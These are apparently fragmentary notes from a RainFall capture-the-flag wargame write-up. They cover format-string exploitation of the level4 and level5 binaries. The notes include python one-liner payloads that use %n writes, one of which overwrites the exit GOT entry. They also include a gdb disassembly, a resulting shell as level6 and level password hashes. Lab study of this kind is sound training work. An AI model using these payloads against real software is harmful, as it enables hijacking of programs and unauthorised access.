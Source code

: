 ```
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
```

local_20c have a size of 520 but fgets let us only read 0x200 (512) char

level4@RainFall:~$ ./level4 
AAAAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x 
AAAAAA b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 41414141 25204141 78252078 20782520 25207825 78252078 20782520

A is in 12nd argument


python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%134513824$n"' > input.txt

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a



*------------------
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370

python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824c" + "%4$n"' > input.txt

                                                                          
  whoami
level6
pwd
/home/user/level5
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31